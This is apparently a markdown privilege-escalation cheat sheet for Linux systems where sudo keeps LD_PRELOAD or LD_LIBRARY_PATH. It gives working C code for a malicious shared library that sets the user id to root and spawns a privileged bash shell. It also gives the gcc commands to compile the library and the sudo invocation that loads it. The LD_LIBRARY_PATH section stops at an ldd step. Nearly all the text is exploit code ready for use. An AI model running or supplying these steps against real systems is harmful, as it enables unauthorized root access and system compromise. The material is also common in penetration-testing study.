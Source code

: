 ## Leverage LD_PRELOAD and LD_LIBRARY_PATH

If the output of `sudo -l` contains:

- `env_keep+=LD_PRELOAD`
- `env_keep+=LD_LIBRARY_PATH`

### Exploit LD_PRELOAD

nano exploit.c

```C
#define _GNU_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile code:

```bash
gcc exploit.c -o /tmp/exploit.so -nostartfiles -fPIC -shared
```

Run the program with sudo and the env var:

```bash
sudo LD_PRELOAD=/tmp/exploit.so PROGRAM_NAME
```

### Exploit LD_LIBRARY_PATH

nano exploit.c

```C
#define _GNU_SOURCE
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

List the library load by the target program:

```bash
ldd $(which PROGRAM_NAME)
```
